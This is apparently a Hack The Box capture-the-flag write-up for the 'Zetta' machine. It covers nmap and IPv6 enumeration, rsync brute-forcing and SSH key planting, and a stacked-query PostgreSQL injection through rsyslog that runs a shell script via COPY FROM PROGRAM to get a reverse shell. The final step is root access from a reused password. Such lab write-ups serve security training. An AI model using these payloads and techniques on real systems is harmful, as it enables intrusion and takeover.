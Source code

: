 ```yaml
---
layout: single
title: Zetta - Hack The Box
excerpt: This is the writeup for Zetta
date: 
classes: wide
header:
  teaser: images/zetta.png
categories:
  - hackthebox
  - infosec
tags:
  - 
  - 
  - 
---
```


![](images/zetta.png)

# Steps

### NMAP
```
# Nmap 7.80 scan initiated Fri Oct 18 16:30:32 2019 as: nmap -sV -sC -oN inital -v zetta.htb
Nmap scan report for zetta.htb (10.10.10.156)
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
22/tcp open   ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open   http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 18 16:30:52 2019 -- 1 IP address (1 host up) scanned in 20.51 seconds
```

Enumerating the website we found the credentials and RFC standard supported by ftp

![](images/ftp_creds.png)

![](images/ftp_standard.png)

RFC 2428 standard supports IPv6 over ftp

Obtaining IPv6 address using EPRT command over ftp

![](images/ipv6.png)

### Enumerating IPv6 address

#### NMAP
```
# Nmap 7.80 scan initiated Tue Oct 22 22:02:27 2019 as: nmap -p- -oN allports -v --max-retries 1 -6 dead:beef::250:56ff:feb9:8b0f
Increasing send delay for dead:beef::250:56ff:feb9:8b0f from 0 to 5 due to 36 out of 118 dropped probes since last increase.
Warning: dead:beef::250:56ff:feb9:8b0f giving up on port because retransmission cap hit (1).
Nmap scan report for dead:beef::250:56ff:feb9:8b0f
Host is up (0.13s latency).
Not shown: 64670 closed ports, 861 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Oct 22 22:21:51 2019 -- 1 IP address (1 host up) scanned in 1163.85 seconds
```

#### Enumerating `rsync` service on port 8730

Listing rsync modules
```
➜ rsync "[dead:beef::250:56ff:feb9:97]::" -6 --port 8730  
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


bin            	Backup access to /bin
boot           	Backup access to /boot
lib            	Backup access to /lib
lib64          	Backup access to /lib64
opt            	Backup access to /opt
sbin           	Backup access to /sbin
srv            	Backup access to /srv
usr            	Backup access to /usr
var            	Backup access to /var
```

Trying to list modules I found out we can list contents of `etc` module. Grabbing `rsyncd.conf`
```sh
➜ rsync "[dead:beef::250:56ff:feb9:97]::etc/rsyncd.conf" -6 --port 8730 .
```

I found another module named `home_roy` and user `roy`

Bruteforcing `rsync` credentials for user `roy` using python script we found the password "computer"

Now that I have write access to `roy's` home directory I transfered my public key to user's home directory

```
rsync authorized_keys  "roy@[dead:beef::250:56ff:feb9:8254]::home_roy/.ssh/" -6 --port 8730
```

Logging in as user roy using my private key
![](images/roy_ssh.png)

Enumerating file system and services I found that `rsyslog` service is running with `postgresql`. SQL Injection Vulnerability present in rsyslogd.
https://www.rsyslog.com/article35/

Since it was not possible for me to verify if I can trigger sql injection or not. I decided to replicate the envoinment on my machine to craft a payload.

### Setting up local envoirnment

#### Required packages
```
$ sudo apt install rsyslog-pgsql
```
#### Setting up configuration
Grab the configuration file `/etc/rsyslog.conf` and copy it to same location.

PostgreSQL configuration can be found by looking up git commit history. Copy the configuration to file `/etc/rsyslog.d/pgsql.conf`
```
$ cd /etc/rsyslog.d/.git
$ git show
```
![](images/git_show.png)

Set the postgresql user password according to the configuration files.

#### Creating table in postgresql
```
$ psql -U postgresql

syslog=# CREATE DATABASE syslog;
syslog=# \c syslog;
syslog=# CREATE TABLE syslog_lines(message varchar(40),devicereportedtime varchar(20));
```

#### SQL Injection
From `pgsql.conf` I understand that rsyslog is configured to log only `local7.info` logs.
I used `logger` command to end message into system log with `-p` arguement to specify the priority

![](images/local_test.png)

On victim machine postgresql log file constantly truncated so I used `tail -F` to track file changes.

![](images/track_error.png)

Since single-quotes are escaped I used `double-dollar` supported by postgresql to replace single quotes anywhere.

#### Crafting payload
Refrencing the query in `pgsql.conf` we can craft a payload as stacked queries.
```
\',$$test$$);CREATE TABLE test();--
```

#### Using sql injection to get reverse shell.
[Authenticated Arbitrary Command Execution on PostgreSQL](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

![](images/code_execution.png)

Create a file `/tmp/shell.sh` with reverse shell script contents
```
$logger -isp local7.info
  \',$$10 10 10$$);DROP TABLE IF EXISTS cmd_exec;--
  \',$$10 10 10$$);CREATE TABLE cmd_exec();--
  \',$$10 10 10$$);COPY cmd_exec FROM PROGRAM $$bash /tmp/shell.sh$$;--
```
I found some intresting files in `/var/lib/postgresql`.
```
postgres@zetta:/var/lib/postgresql$  -la
ls -la
total 20
drwxr-xr-x  4 postgres postgres 4096 Jul 27 06:57 .
drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
-rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
drwx------  2 postgres postgres 4096 Nov  8 14:45 .ssh
postgres@zetta:/var/lib/postgresql$ cat .psql_history
cat .psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority s
mallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData tex
t NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
postgres@zetta:/var/lib/postgresql$
```

I tried `sup3rs3cur3p4ass@root` as password for root and got access

![](images/root_access.png)